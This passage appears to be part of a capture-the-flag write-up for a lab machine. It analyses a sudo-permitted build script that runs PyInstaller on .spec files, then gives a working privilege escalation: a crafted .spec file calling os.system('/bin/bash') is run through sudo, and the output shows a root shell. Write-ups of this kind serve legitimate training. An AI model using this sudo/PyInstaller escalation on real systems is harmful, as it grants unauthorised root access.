 ```bash
action=$1
name=$2
```

Then the script execute some python code with :

```bash
/home/svc/.local/bin/pyinstaller $name
```

There is a condition for this execution :

```bash
if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
```

with : 

```bash
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')
```

so the second parameter (`$name`) is a file name with extention named '.spec'

### Privilege Escalation

```bash
cat <<EOF >>xploit.spec
import os
os.system("/bin/bash")
EOF

sudo /usr/local/sbin/build-installer.sh build xploit.spec
```

Result is a root shell

```text
412 INFO: PyInstaller: 5.6.2
412 INFO: Python: 3.10.6
414 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
420 INFO: UPX is not available.
root@socket:/home/tkeller# id
uid=0(root) gid=0(root) groups=0(root)
root@socket:/home/tkeller# 

```

